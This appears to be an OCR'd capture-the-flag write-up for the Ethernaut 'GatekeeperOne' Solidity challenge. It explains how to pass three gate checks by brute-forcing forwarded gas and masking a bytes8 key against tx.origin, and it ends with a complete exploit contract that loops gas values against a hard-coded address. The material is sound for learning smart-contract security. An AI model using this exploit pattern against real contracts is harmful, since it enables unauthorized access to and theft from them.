 ```solidity
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

This challenge requires us to pass 3 gates, each representing a condition using modifiers and require statements. "gateOne" is the same condition as "Telephone" challenge. coming to "gateTwo", it checks if gasleft modulo 8191 is 0 or not. gasleft is the amount of gas remaining for rest of the execution. When calling from a contract, we can set the amount of gas we want to forward, so, that gas amount can be bruteforced until this check passes. "gateThree" depends on the uint conversion. When a uint is converted to a lower size "uint", the resulting value will be lower size bits of the original value. So, to pass

```solidity
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
```

uint16 takes lower 16 bits, whereas uint32 takes lower 32 bits, to make them to be equal we can set bits 16-31 to 0 given bits are numbered with lsb as 0.

```solidity
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
```

upper 32 bits of uint64(\_gateKey) should not be 0. The last check is

```solidity
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
```

This requires lower 16 bits to be equal lower 16 bits of tx.origin.

final exploit is

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;
contract Hack {
    bytes8 key = bytes8(0x6cC879AdbCEF2aEC) & 0xFFFFFFFF0000FFFF;
//  bytes8 public m = bytes8(abi.encodePacked(tx.origin)) & 0xFFFFFFFF0000FFFF;
    function enterGate() public {
        for(uint i=0;i<120;i++){
            address(0xf36D7330A95B42B0356932e670eB6c3600ceb146).call{gas:i+150+8191*3}(abi.encodeWithSignature("enter(bytes8)", key));
        }
    }
}
```
